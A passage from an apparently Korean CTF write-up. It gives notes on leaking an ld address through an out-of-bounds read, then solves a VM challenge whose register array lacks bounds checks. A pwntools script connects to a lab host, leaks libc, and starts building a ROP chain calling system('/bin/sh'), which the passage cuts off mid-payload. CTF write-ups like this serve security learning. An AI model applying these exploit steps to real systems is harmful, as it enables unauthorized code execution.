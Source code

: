 ### 블로그 포스트 작성자의 추가적인 코멘트

OOB read/write 취약점을 이용한 문제입니다. OOB read 취약점으로 스택의 모든 값을 읽을 수 있지만, 딱히 남아있는 libc 주소가 없어 ld 주소를 릭해야 합니다. ld 주소의 경우 환경마다 오프셋이 조금씩 변할 수 있기 때문에 도커라이징 된 환경에서 확인해보시는 것을 추천드립니다. 

gdb 를 설치하면 메모리 매핑이 바뀌기 때문에 `/proc/<fd>/maps` 파일을 읽어 오프셋을 계산해야 정확한 결과를 얻을 수 있습니다. 또한, 도커라이징된 환경에서 오프셋을 구한다고 해도 호스트의 커널을 공유하기 떄문에 오프셋이 조금씩 바뀔 수 있습니다. 이럴 떄는 +- 0x1000 만큼 브루트포스 해보며 익스플로잇이 될 떄까지 시도하는 방법으로 해결하실 수 있습니다.  


---

## VMUprotect

**출제자 책정 난이도**: medium

```c++
    char reg[8] = { 0, };
    char opcode = 0;
...
            case '\x04': // mov const to register;
                reg[code[pc]] = code[pc + 1];
                pc += 2;
                break;
            case '\x05': // mov register to register
                reg[code[pc]] = reg[code[pc + 1]];
                pc += 2;
                break;
```

reg 배열의 사이즈는 8이지만, case 4, 5 에서 reg 배열에 대한 범위검사가 생략되어 oob read/write가 가능하다. 이를 이용해 return address 까지의 오프셋을 계산해 libc leak 이후 rop payload를 작성하면 된다.

```python
from pwn import *

context.log_level = 'debug'

#p = process('./VMUnprotect')
p = remote('10.10.1.1', 8002)


payload = b'\x20'*512
payload += b'\x05\x00\x28\x01\x00\x05\x00\x29\x01\x00\x05\x00\x2a\x01\x00\x05\x00\x2b\x01\x00\x05\x00\x2c\x01\x00\x05\x00\x2d\x01\x00\x02'

pause()

p.sendlineafter(b' : ', payload)

libc = u64(p.recv(6).ljust(8, b'\x00'))
libc_base = libc - 0x29d90
log.info(hex(libc_base))

poprdi = libc_base + 0x2a745
binsh = libc_base + 0x1d8678 + 0x20

libc_system = libc_base + 0x50d70 - 0x10

payload = b'\x04\x18' + bytes([p64(poprdi)[0]])
payload += b'\x04\x19' + bytes([p64(poprdi)[1]])
payload += b'\x04\x1a' + bytes([p64(poprdi)[2]])
payload += b'\x04\x1b' + bytes([p64(poprdi)[3]])
payload += b'\x04\x1c' + bytes([p64(poprdi)[4]])
payload += b'\x04\x1d' + bytes([p64(poprdi)[5]])

```